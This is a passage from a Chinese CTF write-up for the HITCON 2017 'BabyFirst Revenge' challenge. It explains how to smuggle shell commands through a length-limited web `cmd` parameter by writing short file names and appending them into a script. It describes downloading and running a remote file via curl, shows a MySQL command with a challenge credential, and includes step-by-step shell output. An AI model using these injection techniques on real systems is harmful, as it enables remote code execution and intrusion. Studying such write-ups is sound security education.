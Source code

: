 ```
mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e 'use fl4gdb;select * from this_is_the
_fl4g;'
```



![baby2](https://mo-xiaoxi.github.io/img/post/hitcon/baby2.png)

#### 其他解法

1. [Orange官方解答](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py)
2. [Chybeta的解答](https://chybeta.github.io/2017/11/04/HITCON-CTF-2017-BabyFirst-Revenge-writeup/)
3. [王一航的解答](http://www.jianshu.com/p/82788b6949c7)
4. [https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/](https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/)

这里总结一下，我们的解法是通过构造一个符合字典序的`curl xxx.xx>1`来从外部下载一个文件，并sh执行它。这里的域名需要特殊构造，使其符合字典序。

而Orange的思路用到了一个追加的方式，即\>\>指令。在http://wonderkun.cc/index.html/?p=524这篇文章中，讲到利用`ls -t>a`来防止指令乱序的问题。但当长度为5个字节时，`ls -t>a`指令就无法输入了。而且若分为多个文件指令拼接的时候，我们每次只能输入3个字符。（因为\>和\\需要占去两个字符，另外若要输入一些特殊符号，还会额外占用一个转义符号。）此时，单纯利用\>是无法解决字典序问题的，因为空格和\-\>的ascii码太靠前了。但是，如果使用追加功能的话是可以完成的，我们可以先写入ls，再追加` -t>a`。

这里还有一个特性，就是bash会忽略执行过程中遇到的一行错误。

具体如下：

```bash
http://10.211.55.17/?cmd=>ls\
http://10.211.55.17/?cmd=ls>_
此时，_文件内容为
➜  1924cf16182a5279a02c5ffb573daaa4 cat _
_
ls\
再访问
http://10.211.55.17/?cmd=>\ \
http://10.211.55.17/?cmd=>-t\
http://10.211.55.17/?cmd=>\>g
http://10.211.55.17/?cmd=ls>>_(追加文件)
此时，_文件内容
➜  1924cf16182a5279a02c5ffb573daaa4 ls
 \  _  >g  ls\  -t\
➜  1924cf16182a5279a02c5ffb573daaa4 cat _
_
ls\
 \
-t\
>g
_
ls\
如果，我们执行_，可以发现ls -t>g指令会执行，虽然第1、6行会报错。
➜  1924cf16182a5279a02c5ffb573daaa4 sh _
_: 1: _: _: not found
_: 6: _: _: not found
 \  _  g  >g  ls\  -t\
 g文件内容以生成时间逆序写入
 ➜  1924cf16182a5279a02c5ffb573daaa4 cat g
g
_
>g
-t\
 \
ls\
```
